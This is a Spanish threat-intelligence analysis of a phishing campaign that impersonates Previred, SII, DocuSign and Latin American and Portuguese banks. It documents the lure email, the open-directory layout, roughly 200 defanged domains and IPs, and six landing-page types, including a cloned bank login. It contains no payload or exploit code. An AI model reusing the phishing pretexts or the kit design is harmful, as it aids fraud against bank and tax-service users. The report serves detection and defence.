> _Only with educational proposals | Este contenido tiene unicamente fines educativos_

# Caso Previred UC Christus

A finales de septiembre de 2026, múltiples organizaciones en Chile recibieron un correo electrónico con el asunto **"URGENTE - COTIZACIONES SIN PAGAR"**. Aunque el remitente utilizaba una dirección aparentemente legítima de la **Pontificia Universidad Católica** _(previred@uc.cl)_, el cuerpo del mensaje incluía un enlace de descarga hacia un dominio externo _(f-pdf[.]lat)_ para obtener un supuesto documento con las cotizaciones impagas, evidenciando una campaña activa de *phishing*.



Como se puede apreciar, el correo no adjunta ningún archivo, solo invita a descargar el documento mediante el botón **"DESCARGAR DOCUMENTO AQUI"**. Cabe señalar que el pie del mensaje referencia el sitio real de Previred _(www.previred.com)_, por lo que el único enlace que apunta fuera de la entidad suplantada es el del botón.

> UC señala un comunicado de concientización en su sitio de la facultad de informática, pero no indica datos de la [campaña](https://ciberseguridad.informatica.uc.cl/campanas/campana-phishing/) en rigor.

Si bien la campaña se identifica a partir del correo mencionado, al analizar la muestra se comprueba que no está dirigida únicamente al público chileno, sino que abarca buena parte de América del Sur, especialmente Brasil, además de Portugal. Esto se evidencia al revisar el flujo de peticiones, dado que la muestra consulta la URI **{dominio}/files/**, que expone un índice con las distintas campañas.



# Infraestructura de la Campaña

## Open Directory

El servidor que distribuye el malware _(Apache/2.4.58 sobre Ubuntu)_ tiene habilitado el listado de directorios en la ruta **/files/**, que es donde el kit guarda los archivos que entrega. Dado este descuido del operador, es posible revisar el árbol completo de distribución, el que mantiene siempre una estructura de tres niveles:

```
/files/
└── <dominio>/                    # un directorio por cada dominio de la campaña
    └── <token de 16 hex>/        # un directorio por cada archivo generado
        └── <prefijo>-XXXXXX.zip  # archivo inicial, entre 1.2 y 1.9 KB
```

El primer nivel contiene un directorio por cada dominio utilizado en la campaña. Al ingresar a uno de ellos se listan los directorios generados para ese dominio, cada uno identificado por un token hexadecimal de 16 caracteres.



Cabe señalar que el pie del listado indica **bbva-download[.]lat**, aunque el directorio consultado corresponde a **rchivofacturacloudx5431[.]site**. El contenido de **/files/** es el mismo sin importar el dominio desde el que se consulte, por lo que los dominios de la campaña son *virtual hosts* de un mismo servidor.



Dentro de cada token se encuentra un único archivo, que corresponde a la primera etapa de la infección. El prefijo del nombre cambia según el dominio _(**DOC-**, **update-**, **file-**, **PJudCL-DOC-**)_ y es seguido de seis caracteres aleatorios.



En la mayoría de los casos el archivo es un **.zip**, pero en ciertos dominios queda expuesto directamente como un acceso directo _(**.lnk**)_.



Al revisar el índice días después, este ya contenía dominios nuevos. A la fecha de esta publicación se llevan identificados **más de 200 dominios** asociados a la campaña.



En este listado se puede apreciar que **bbva-download.lat** y **BBVA-DOWNLOAD.LAT** existen como directorios distintos, por lo que el servidor estaría creando la carpeta con el nombre de dominio tal como llega en la petición _(cabecera **Host**)_.

Por otro lado, los nombres de los directorios permiten identificar los países y las entidades suplantadas:

| **País**   | **Entidades suplantadas**                                           | **Ejemplos de dominio**                                                                        |
| ---------- | ------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------- |
| Brasil     | Nota Fiscal Eletrônica, Bradesco, Itaú, Safra, Caixa, Mercado Livre | `nn.notas-fiscais[.]net`, `bradesco.moduloempresarial[.]online`, `caixa.moduloatualizar[.]com` |
| Chile      | PreviRed, SII, Poder Judicial                                       | `f-pdf[.]lat`, `sii[.]cl-facturas[.]lat`, `pjudchile-docusign[.]online`                        |
| Portugal   | CTT, Finanças, Banco Montepio, Caixa Geral de Depósitos             | `banco-montepio.zentorq[.]pro`, `caixadirecta.chatcontacto[.]com`, `cttentregas.factureya[.]pt` |
| Argentina  | Edenor                                                              | `nfseonline.edenor[.]pt`                                                                       |
| Multi-país | BBVA, DocuSign, Mercado Pago, facturas genéricas                    | `bbva-download[.]lat`, `all-pdf[.]lat`, `rchivofacturacloudx5431[.]site`                       |

La mayor parte de los dominios está en portugués y hace referencia a la *nota fiscal* o a una supuesta "actualización de módulo" bancario, por lo que el foco principal de la campaña es Brasil.

## Triage de Víctimas

Dado que el servidor genera un directorio por cada archivo entregado, cada directorio correspondería a una "víctima". Para dimensionar la campaña se recorrió el árbol completo de forma automatizada, validando primero qué dominios seguían activos y cuáles exponían el índice.



Todos los dominios activos devuelven la misma cantidad de directorios _(97 al momento de la captura)_, lo que confirma que comparten el mismo servidor. Al consultar directamente la dirección IP _(64.202.189[.]143)_ el índice no se presenta, por lo que solo es accesible mediante los dominios de la campaña.

Posteriormente, se descarga el archivo de cada token para su revisión.



Las muestras tienen un tamaño cercano a **1.4 KB**, contienen un único archivo y no presentan URLs en texto claro. El tamaño varía en unos pocos bytes entre una y otra, por lo que el archivo se genera de forma individual para cada visitante.

A la fecha se contabilizan **aproximadamente 15.000 directorios** entre todos los dominios, lo que equivale a unas 15.000 posibles víctimas entre las diferentes versiones de la campaña.

> Esta cifra corresponde a archivos generados y no a infecciones confirmadas, dado que el directorio se crea al momento de la descarga y no de la ejecución. Además, el conteo incluye visitas de analistas, sandboxes y scanners.

> Los tokens de los directorios no se publican, ya que cada uno identifica a una posible víctima.

## Infraestructura en Shodan

Al consultar el servidor directamente por su dirección IP, este no entrega el landing page, sino una página de configuración propia del kit. Con el hash de esta página se realiza la búsqueda inicial en **Shodan**.



Posteriormente, la búsqueda se amplía utilizando los títulos de las páginas identificadas _(**"Configuração Necessária"** y **"Operador - Login"**)_.



La búsqueda entrega tres direcciones IP, relacionadas entre sí por el dominio **painelst[.]com**:

| **IP**             | **Proveedor**                   | **Servidor**           | **Título**                                 | **Hostname**            |
| ------------------ | ------------------------------- | ---------------------- | ------------------------------------------ | ----------------------- |
| `64.202.189[.]143` | GoDaddy _(Phoenix, EE.UU.)_     | Apache/2.4.58 (Ubuntu) | Configuração Necessária / Operador - Login | `remoto.painelst[.]com` |
| `72.167.47[.]112`  | GoDaddy _(Phoenix, EE.UU.)_     | Apache/2.4.58 (Ubuntu) | Configuração Necessária / Operador - Login | `remoto.painelst[.]com` |
| `45.178.180[.]233` | AbsamHost _(São Paulo, Brasil)_ | gunicorn               | Operador - Login                           | `painel.painelst[.]com` |

Las dos primeras comparten proveedor, ubicación y la misma versión de Apache del open directory. La tercera se encuentra en Brasil, utiliza **gunicorn** _(Python)_ y solo presenta el login, por lo que correspondería al panel de administración y no a un servidor de distribución. Los certificados de las tres fueron emitidos por **Let's Encrypt**.



Cabe señalar que el hostname **remoto.painelst[.]com** fue observado el 1 de octubre en **64.202.189[.]143** _(la misma IP del open directory)_ y desde el 25 de octubre en **72.167.47[.]112**, por lo que el operador habría levantado un segundo servidor con las mismas características.



La página de configuración corresponde a un aviso del propio kit, que se muestra cuando un dominio apunta al servidor pero aún no tiene asignado un **rastreador**.



El aviso indica que se debe ingresar al **Painel do Operador**, ir a **Domínios** y seleccionar al **usuário responsável** por los accesos del dominio, para que estos sean contabilizados. De esto se desprenden los siguientes puntos:

* Los dominios y sus registros DNS se administran desde el mismo panel.
* Cada dominio se asigna a un usuario y los accesos se contabilizan por usuario, por lo que el kit estaría siendo utilizado por más de un operador.
* El término **rastreador** se vuelve a observar en el código de las siguientes etapas de la muestra.

Por otro lado, el título **"Operador - Login"** corresponde al acceso del panel, que se encuentra detrás de un desafío de **Cloudflare**.



El panel se describe como *"Painel de controle remoto para gerenciamento e monitoramento de dispositivos em tempo real"*, por lo que no corresponde únicamente a las estadísticas de la campaña, sino al control remoto de los equipos infectados. Tanto el panel como el aviso anterior se encuentran en portugués.

# Landing Pages

De los más de 200 dominios identificados, no todos presentan el mismo [**Landing Page**](https://nhimg.org/glossary/phishing-landing-page/). Al revisarlos se identifican **6 tipos diferentes**, que cambian según la entidad suplantada y el país al que se dirige.



| **Tipo**                   | **Contenido**                                           | **Idioma** |
| -------------------------- | ------------------------------------------------------- | ---------- |
| Documento genérico         | "Documento disponible", sin marca                       | ES / PT    |
| SII                        | Servicio de Impuestos Internos _(Chile)_                | ES         |
| DocuSign / Poder Judicial  | Visor de firma con el documento **PJudCL-DOC**          | ES         |
| Mercado Pago               | Términos de adhesión y condiciones de uso de la tarjeta | ES         |
| Banco Montepio             | Login **Acesso Net24** _(Portugal)_                     | PT         |
| Página por defecto (Locaweb) | Página de prueba del hosting, sobre un subdominio de terceros | PT |

Si bien el diseño cambia entre un tipo y otro, todos los sitios comparten el mismo bloque de script, encargado de llamar a **gerar.php** para generar el archivo:

```javascript
const GERAR_URL = "\/gerar\/gerar.php";
const FAIL_MSG = "Error al preparar. Intente de nuevo.";
```

Entre un sitio y otro solo cambia el mensaje de error, que se traduce según el idioma del sitio _(Ej. **"Falha ao carregar os termos. Tente novamente."** en Banco Montepio)_. Este dato es relevante, dado que confirma que todos los dominios utilizan el mismo kit, y permite identificar un landing nuevo de la campaña aunque cambie el diseño o la entidad suplantada.

* **Documento genérico**

Es el más utilizado y el que corresponde al caso Previred _(primer recuadro de la imagen anterior)_. No suplanta ninguna marca, solo presenta el texto **"Documento disponible"** y un botón de descarga.

* **SII**

Mantiene la misma estructura del documento genérico, pero con el encabezado del **Servicio de Impuestos Internos** y la referencia a **sii.cl**.



Una vez generado el archivo, el sitio cambia a **"Documento listo"** y permite descargarlo nuevamente.



* **DocuSign / Poder Judicial**

Imita un visor de **DocuSign** con un documento llamado **PJudCL-DOC** y el mensaje *"Por favor revise y firme este documento"*. El visor no muestra el documento, presenta un error indicando que este se debe descargar para verlo.



Posteriormente, el mismo error agrega un segundo botón **"Abrir documento"**, por lo que ambos caminos llevan a la descarga. Cabe señalar que el nombre del documento coincide con el prefijo del archivo que entrega este dominio _(**PJudCL-DOC-XXXXXX.zip**)_.



* **Mercado Pago**

Presenta un supuesto contrato de **"Términos de adhesión y condiciones de uso de la tarjeta"** _(tercer recuadro de la imagen inicial)_. En este caso el pretexto es la aceptación de un producto que la víctima no solicitó.

* **Banco Montepio**

Es el único que clona el acceso de un banco _(**Acesso Net24**)_, solicitando la identificación del usuario antes de entregar el archivo. Al revisar el código del sitio se observa el mismo bloque de **gerar.php**.



Además del bloque, se pueden apreciar las variables **userType**, **userId** y **pinValue**, que corresponden a los datos que ingresa la víctima, y la función **generateKeyboard()**, que genera un teclado numérico con las teclas en orden aleatorio imitando el teclado virtual del banco. El archivo se presenta como los "términos" del servicio _(**termosUrl**)_ y los comentarios del código se encuentran en portugués.

* **Página por defecto (Locaweb)**

No todos los dominios fueron registrados por el operador. En el índice se identifica un subdominio de una empresa brasileña _(xml.abnimpexp[.]com[.]br)_, que presenta la página de prueba del proveedor **Locaweb**.

